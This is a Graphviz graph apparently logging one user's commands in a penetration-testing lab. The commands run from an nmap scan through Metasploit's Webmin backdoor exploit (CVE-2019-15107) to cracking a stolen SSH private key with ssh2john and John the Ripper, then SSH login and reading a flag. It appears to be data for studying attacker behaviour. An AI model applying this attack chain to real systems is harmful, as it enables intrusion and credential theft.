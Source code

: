 // creating graph for user: 73
digraph {
	node [shape=box]
	0 [label="nmap -A 172.18.1.5 M0 "]
	3 [label="msfconsole M2 "]
	4 [label="search webmin 1.920 M3 "]
	5 [label="search cve:2019-15107 A3 "]
	6 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	7 [label="show options M5 "]
	8 [label="set TARGETURI=172.18.1.5:10000 A6 "]
	9 [label="set TARGETURI 172.18.1.5:10000 A6 "]
	10 [label="run M8 "]
	11 [label="show options M5 "]
	12 [label="set TARGETURI / A6 "]
	13 [label="set RHOST 172.18.1.5 A6 "]
	14 [label="run M8 "]
	15 [label="set LHOST 0.0.0.0 M6 "]
	16 [label="run M8 "]
	17 [label="show options M5 "]
	18 [label="search edb:47230 A3 "]
	19 [label="search webmin M3 "]
	23 [label="run M8 "]
	24 [label="show options M5 "]
	25 [label="set LHOST 10.1.135.83 M6 "]
	26 [label="run M8 "]
	27 [label="ls A10 "]
	29 [label="ls A10 "]
	30 [label="ls A10 "]
	31 [label="cat ssh2john.py A1 A9 A11 A12 A14 A16 A17 "]
	32 [label="python ssh2john.py M13 "]
	36 [label="ls A10 "]
	37 [label="python ssh2john.py rsa_d M13 "]
	38 [label="python ssh2john.py rsa_d > john_rsa M13 "]
	39 [label="john john_rsa A14 "]
	40 [label="john rsa_d A14 "]
	41 [label="john john_rsa A14 "]
	42 [label="python ssh2john.py /tmp.k > rsa2 M13 "]
	43 [label="cat rsa_d A1 A9 A11 A12 A17 "]
	44 [label="john ---h A14 "]
	45 [label="john -h A14 "]
	46 [label="ls A10 "]
	47 [label="ls Documents/m A10 "]
	48 [label="ls Documents/ A10 "]
	49 [label="ls Documents/ -laR A10 "]
	50 [label="ls A10 "]
	51 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt M14 "]
	52 [label="john --show A5 A14 "]
	53 [label="ls A10 "]
	54 [label="john rsa_d --show A5 A14 "]
	55 [label="ls A10 "]
	56 [label="ls fasttrack.txt A10 "]
	57 [label="ls -l A10 "]
	58 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt.gz M14 "]
	59 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt M14 "]
	61 [label="head rockyou.txt A9 A11 A12 A17 "]
	62 [label="john rsa2 --wordlist /usr/share/wordlists/rockyou.txt M14 "]
	63 [label="ls A10 "]
	64 [label="john john_rsa A14 "]
	65 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt M14 "]
	66 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt M14 "]
	67 [label="john A14 "]
	68 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt --show M14 "]
	69 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt --show=left M14 "]
	70 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt --show=right M14 "]
	71 [label="john john_rsa --show --wordlist /usr/share/wordlists/rockyou.txt M14 "]
	72 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa M14 "]
	73 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --show M14 "]
	74 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa M14 "]
	75 [label="less rockyou.txt A9 A11 A12 A17 "]
	76 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH M14 "]
	77 [label="ls A10 "]
	78 [label="john --wordlist /usr/share/wordlists/rockyou.txt rsa_d --format=SSH M14 "]
	79 [label="john --wordlist /usr/share/wordlists/rockyou.txt rsa2 --format=SSH M14 "]
	80 [label="john --wordlist /usr/share/wordlists/rockyou.txt rsa_d --format=SSH M14 "]
	81 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH M14 "]
	82 [label="john --show A5 A14 "]
	83 [label="john --show john_rsa A5 A14 "]
	84 [label="python ssh2john.py r.txt > rsa3 M13 "]
	85 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH --verbose M14 "]
	86 [label="john A14 "]
	87 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH --verbose M14 "]
	88 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SS M14 "]
	89 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH M14 "]
	90 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH M14 "]
	91 [label="less rockyou.txt A9 A11 A12 A17 "]
	92 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa M14 "]
	93 [label="show rsa_ A5 "]
	94 [label="show rsa_d A5 "]
	95 [label="john --show rsa_d A5 A14 "]
	96 [label="python ssh2john.py /tmp/id_rsa hash M13 "]
	97 [label="python ssh2john.py /tmp/id_rsa > hash M13 "]
	98 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash M14 "]
	99 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash --rules M14 "]
	100 [label="john --show hash A5 A14 "]
	101 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash --rules M14 "]
	102 [label="john --wordlist=all.lst hash M14 "]
	103 [label="sudo john A14 "]
	104 [label="john --show hash --format=SSH A5 A14 "]
	105 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash --rules M14 "]
	106 [label="john --show hash --format=SSH A5 A14 "]
	107 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash M14 "]
	108 [label="john --show hash --format=SSH A5 A14 "]
	109 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash M14 "]
	110 [label="ls A10 "]
	112 [label="john --wordlist wl.txt hash M14 "]
	113 [label="ls A10 "]
	114 [label="john --show hash A5 A14 "]
	116 [label="john --wordlist wl.txt hash M14 "]
	117 [label="john --show hash A5 A14 "]
	118 [label="john --show --format=SSH                             hash A5 A14 "]
	119 [label="cat /tmp/id_rsa M12 "]
	120 [label="python ssh2john.py /tmp/id_rsa M13 "]
	121 [label="ssh-add /tmp/id_rsa A16 "]
	122 [label="ssh-add id_rsa A16 "]
	124 [label="ls -la A10 "]
	125 [label="python ssh2john.py id_rsa > hash M13 "]
	126 [label="john --wordlist /usr/share/wordlists/rockyou.txt M14 "]
	127 [label="john --show id_rsa A5 A14 "]
	128 [label="john --show hash A5 A14 "]
	129 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash M14 "]
	130 [label="john --show hash A5 A14 "]
	131 [label="john --wordlist /usr/share/wordlists/rockyou.txt --fork 4 hash M14 "]
	132 [label="john --wordlist /usr/share/wordlists/rockyou.txt --fork=4 hash M14 "]
	133 [label="john --wordlist=/usr/share/wordlists/rockyou.txt --fork=4 hash M14 "]
	134 [label="ssh-add id_rsa A16 "]
	135 [label="ssh eve@10.1.17.4 M16 "]
	136 [label="cp id_rsa .ssh/id_rsa A16 "]
	137 [label="ssh eve@10.1.17.4 M16 "]
	138 [label="ls A10 "]
	139 [label="ls -a M10 "]
	142 [label="ssh-add id_rsa A16 "]
	143 [label="ssh eve@10.1.17.4 M16 "]
	144 [label="ls A10 "]
	146 [label="ls A10 "]
	147 [label="cat flag A1 A9 A11 A12 A17 "]
	148 [label="cat flag.txt M17 "]
	0 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	rankdir=LR
}
